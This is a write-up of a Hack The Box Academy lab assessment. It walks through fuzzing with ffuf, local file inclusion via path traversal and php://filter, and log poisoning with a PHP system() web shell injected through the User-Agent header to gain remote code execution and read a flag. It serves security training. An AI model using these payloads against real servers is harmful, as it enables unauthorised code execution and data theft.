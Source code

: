 # Local File Inclusion (LFI) to Remote Code Execution (RCE) - Skill Assessment Write-Up

**Author**: Jordan Davis  
**Platform**: Hack The Box Academy - LFI Skill Assessment  
**Objective**: Exploit a Local File Inclusion (LFI) vulnerability to achieve Remote Code Execution (RCE) and extract a system flag.

---

## 🛠️ Assessment Overview

This write-up documents my approach and successful exploitation of a Local File Inclusion (LFI) vulnerability discovered in a Hack The Box Academy skill assessment lab. The goal was to identify and exploit insecure file inclusion mechanisms to access sensitive files, achieve RCE, and ultimately retrieve a system flag.

---

## 🔍 Initial Recon and Enumeration

### 1. Subdomain Fuzzing

I began by attempting to identify potential virtual hosts using `ffuf`:

```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ \
-u http://94.237.54.192:40972/ -H 'Host: FUZZ.94.237.54.192:40972' -v -c -fs 15829
```

**Result**: No subdomains were discovered.

---

### 2. Directory Enumeration

Next, I scanned for directories using:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ \
-u http://94.237.54.192:40972/FUZZ -v -c -fs 15829
```

**Findings**:

- `/images/`
- `/css/`
- `/js/`
- `/fonts/`

These appeared to be static directories and not useful for further exploitation.

---

## 🧪 Identifying LFI

Manual browsing revealed a `page` parameter in the URL. I attempted a standard LFI test:

```
http://94.237.54.192:40972/index.php?page=../../../../etc/passwd
```

**Result**: Returned "Invalid input detected". Likely input filtering or extension appending.

I then attempted a PHP wrapper trick to bypass this:

```
http://94.237.54.192:40972/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

**Result**: Source code of `index.php` returned in base64.

**Key discovery**: The application automatically appends `.php` to `page` values.

After decoding the base64, I found:

```php
<?php
  // echo '<li><a href="ilf_admin/index.php">Admin</a></li>';
?>
```

Accessing the hidden admin panel confirmed this:

```
http://94.237.54.192:40972/ilf_admin/
```

---

## 🧪 Parameter Fuzzing

To look for hidden or undocumented parameters in the admin panel, I ran:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
-u http://94.237.54.192:47411/ilf_admin/index.php?FUZZ=value -v -c -fs 2035
```

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
-u http://94.237.54.192:47411/ilf_admin/index.php?log=FUZZ -v -c -fs 2046
```

**Result**: No new parameters discovered.

---

## 🔓 Local File Inclusion via `log` Parameter

Testing the `log` parameter directly with LFI payloads revealed it was vulnerable:

```
http://94.237.54.192:47411/ilf_admin/index.php?log=../../../../etc/passwd
```

**Result**: `/etc/passwd` contents returned.

**Key insight**: No file extension was appended to `log`, unlike `page`.

---

## 💉 Log Poisoning for RCE

### Attempted Payload:

```bash
curl -A "<?php system(\$_GET['cmd']); ?>" http://94.237.54.192:47411/
```

Initially, I expected the injected payload to show in the admin panel log viewer, but it did not update in real time.

I confirmed the server was running **Nginx**, not Apache, and accessed the log file directly:

```
http://94.237.54.192:47411/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log
```

**Result**: The log entry with my PHP payload appeared.

### RCE Trigger:

```
?log=../../../../../../../var/log/nginx/access.log&cmd=id
```

**Output**:

```
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

✅ **Remote Code Execution achieved**.

---

## 🎯 Flag Extraction

### Step 1: Listing Root Directory

```
?log=../../../../../../../var/log/nginx/access.log&cmd=ls%20../../../../../
```

**Output**: `flag_dacc60f2348d.txt`

### Step 2: Reading the Flag

```
?log=../../../../../../../var/log/nginx/access.log&cmd=cat ../../../../../flag_dacc60f2348d.txt
```

✅ **Flag retrieved successfully**.

---

## 🔁 Reflections & Lessons Learned

1. **Incorrect Assumption**: Initially assumed the server was running Apache. I should have confirmed this earlier by checking headers or file paths.
2. **Misunderstood Logging Behavior**: I relied on the admin panel’s log viewer and didn't immediately verify the actual log files via LFI after my poisoning attempt.

Correcting these assumptions led to successful exploitation.

---

## ✅ Summary

| Stage              | Result                      |
| ------------------ | --------------------------- |
| Subdomain Scan     | No subdomains found         |
| Directory Scan     | Static folders found        |
| LFI via `page`     | Blocked / filtered          |
| `php://filter`     | Revealed source code        |
| Hidden Admin Panel | Discovered                  |
| Parameter Fuzzing  | No new params               |
| LFI via `log`      | Successful                  |
| Log Poisoning      | Successful                  |
| RCE                | Confirmed via `system(cmd)` |
| Flag               | Extracted via `cat`         |

---

**Status**: ✅ Assessment Completed Successfully

**Jordan Davis**
